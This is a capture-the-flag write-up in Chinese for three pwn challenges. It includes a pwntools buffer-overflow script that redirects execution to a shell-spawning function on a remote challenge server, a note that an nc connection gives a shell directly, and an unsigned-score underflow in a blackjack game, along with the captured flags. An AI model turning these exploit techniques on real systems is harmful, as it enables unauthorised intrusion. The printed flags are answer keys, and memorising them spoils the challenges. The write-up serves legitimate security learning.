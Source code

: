
## Pwn

### 回不去的何止那年夏天

用id打开，看到有个函数Time_machine返回了shell，查到它的地址，exp直接打

``` python
from pwn import *
context.log_level = 'debug'
context.binary = 'summer'
#sh = process('./summer')
sh = remote('210.44.150.15', 45024)

offset = 0x7a + 8
time_machine_addr = 0x000000000004011DE
payload = b'a' * offset + p64(time_machine_addr)

sh.sendline(b'yes')
sh.sendline(payload)
sh.interactive()
```

![summer](imgs/summer.png)

```
SSHCTF{I_R3AI1y_10v3_y0U_dd9530e8f362}
```

### 邻座Linux同学不时用命令偷偷看我的flag

nc连接直接拿shell，相当于直接拿flag了

``` 
SSHCTF{7H3_b39iNnlnG_01_tHl5_w0R1d_f57741fdfac3}
```

### Blackjack

第一局选择16分all in，一直HIT超过21点输掉比赛，此时分数来到了0分

第二轮分数输入-1，这局要赢（输了就重来）

赢了之后，由于score存储类型是unsinged，所以最终分数极大，拿到flag

![blackjack](imgs/blackjack.png)
